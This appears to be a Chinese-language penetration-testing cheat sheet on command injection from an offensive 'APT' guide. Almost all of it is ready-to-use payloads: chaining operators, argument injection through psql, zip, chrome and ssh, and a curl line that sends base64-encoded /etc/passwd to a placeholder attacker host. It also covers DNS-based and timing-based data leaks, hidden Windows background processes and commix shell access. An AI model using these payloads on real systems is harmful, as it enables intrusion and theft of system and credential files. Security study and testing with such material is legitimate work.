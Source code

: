 # 命令注入漏洞

链接命令

```bash
command1; command2
command1 && command2
command1 || command2
command1 & command2
command1 | command2

# Unix和Windows系统均支持
ls||id; ls ||id; ls|| id; ls || id
ls|id; ls |id; ls| id; ls | id
ls&&id; ls &&id; ls&& id; ls && id
ls&id; ls &id; ls& id; ls & id
ls %0A id

# 仅Unix系统支持
`ls`
$(ls)
ls; id
ls${LS_COLORS:10:1}${IFS}id
```

## 1.参数注入

SQL
```bash
psql -o'|命令'
psql -o'|id>/tmp/wolf'
```

ZIP
```bash
zip -T -m -TT '命令 #' 自定义压缩包名.zip 任意现有文件
zip -T -m -TT 'id> /tmp/whoami #' wolf.zip wolf.txt
```

Chrome
```bash
chrome '--gpu-launcher="id>/tmp/foo"'
```

SSH
```bash
ssh '-oProxyCommand="touch /tmp/foo"' foo@foo
```

## 2.数据泄露

常见有效负载
```bash
;`curl%20--data%20%22data=$(base64%20/etc/passwd)%22%20https://攻击者主机`
```

定时攻击
```bash
/usr/bin/time sh -c 'if [ $(whoami | cut -c 1) == "r" ]; then sleep 5; fi'
```

DNS数巨泄露
```bash
for i in $(id) ; do host "$i.DNS主机地址 "; done
$(host $(cat /etc/passwd | head -n1 | sed 's/[ ,]/-/g' | tr -d '.').DNS主机地址)
```

## 3.命令置入后台

类Unix
```bash
python long_running_script.py > /dev/null 2>&1 &
```

Windows
```bash
Start-Process -FilePath "powershell" -ArgumentList "-Command `"& { .\long_running_script.ps1 > $null }`"" -WindowStyle Hidden
start /B cmd /C "long_running_script.bat > NUL 2>&1"
```

## 4.伪终端shell

Commix
```bash
commix --url="WEB应用程序URL " --cookie="Cookie值" --data="请求参数"
键入: y/yes
```

# WAF绕过

[WAF](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%89%E7%AB%A0/WEB%E6%BC%8F%E6%B4%9E%E8%BF%9B%E9%98%B6/%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E)
